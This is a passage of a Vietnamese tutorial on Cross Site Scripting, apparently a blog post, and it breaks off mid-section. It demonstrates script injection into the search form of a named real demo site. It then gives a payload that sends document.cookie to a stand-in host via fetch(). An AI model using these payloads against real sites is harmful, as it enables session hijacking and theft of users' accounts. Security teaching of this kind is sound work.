 * Cross Site Scripting có thể xảy ra trên tập lệnh độc hại được thực hiện ở phía client.

* Trên các trang web có quảng cáo được hiển thị.

* Email độc hại được gửi đến nạn nhân. Tấn công xảy ra khi tin tặc tìm kiếm những lỗ hổng trên website và gửi nó làm đầu vào độc hại. Tập lệnh độc hại được tiêm vào mã lệnh và sau đó được gửi dưới dạng đầu ra cho người dùng cuối cùng.

### b. Ví dụ

Lấy ví dụ đơn giản ở trang web thực tế trên trang web: 

https://demo.otobo.org/otobo/customer.pl

Ta sẽ inject script vào form search ticket:

![](https://i.imgur.com/BxzmQy4.png)

Chèn 

```html
<script>alert('hypnguyen1209')</script>
```

Result:

![](https://i.imgur.com/knPNGkw.png)

Tưởng tượng như kẻ tấn công sẽ thực hiện các script như lấy cookies từ người dùng như:

```html
<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>
```

Cookie sẽ bị lấy trên client và gửi đến trang example.com

## 3. Các loại tấn công XSS

### 1. Reflected XSS 

![](https://images.viblo.asia/full/6016fd6b-2ece-47b5-b07f-483b96365415.png)

![](https://images.viblo.asia/full/9aaa1faa-4b83-4a52-b205-54fdebde03ef.png)

Có nhiều hướng để khai thác thông qua lỗi Reflected XSS, một trong những cách được biết đến nhiều nhất là chiếm phiên làm việc (session) của người dùng, từ đó có thể truy cập được dữ liệu và chiếm được quyền của họ trên website:

![](https://images.viblo.asia/full/28e81cf8-c006-4835-9ef0-a8df7d2ccd12.jpg)

Kịch bản người dùng đăng nhập web và giả sử được gán session:

`Set-Cookie: accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiS0NTQyIsImlhdCI6MTUxNjIzOTAyMn0.HVLgiS3u6jOqluF49YMgKvzECd9B4xW0m8GMJuPFN2A`

Bằng một số cách nào đó hacker gửi được cho người dùng URl sau:
